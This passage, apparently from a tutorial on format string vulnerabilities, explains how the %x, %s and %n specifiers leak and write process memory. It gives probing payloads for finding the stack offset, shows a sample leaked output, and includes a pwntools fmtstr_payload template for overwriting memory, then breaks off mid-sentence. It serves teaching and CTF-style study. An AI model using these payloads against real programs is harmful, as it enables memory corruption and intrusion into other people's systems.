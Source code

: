 ```
Prints the a va_arg structure to a file

|vprintf|
Prints the va_arg structure to stdout

|vsprintf|
Prints the va_arg to a string

|vsnprintf|
Prints the va_arg to a string checking the length
```

**Exploitation** Below are format specifiers that can be used as the input to lead/modify data from the stack

```
"%x" Read data from the stack

"%s" Read character strings from the process’ memory

"%n" Write an integer to locations in the process’ memory
```

In format string vulnerabilities, we want not only to read or lead data/memory addresses from the stack but also modify certain parts of it. Therefore, we need first to identify the offset/location where we can control the values inserted. Possible payloads we can try are below \[1]

```
%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx
```

\[2]

```
AAAABBBB.%10$lx
%11$lx..AAAABBBB
```

While trying the above payloads, check for repeated patterns in the output sent by the program. An example pattern is below

```
7ffcc59f23e0.0.0.7.7.0.9e5900000240.34000000003.58000000380.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.9000a786c25.98000000980
```

Its very clear that starting from position `10` the value `2e786c252e786c25` is shown many times which leads us to conclude that we control user input starting from offset `10` Next, we use `fmtstr_payload` library from `pwn` in `python` to perform an automatic exploitation.

In your code, the payload that you will send as a user input will be similar to the one below

```
payload = fmtstr_payload(offset, {context.binary.sym.<location-to-modify>: value})
```

So in the above payload,
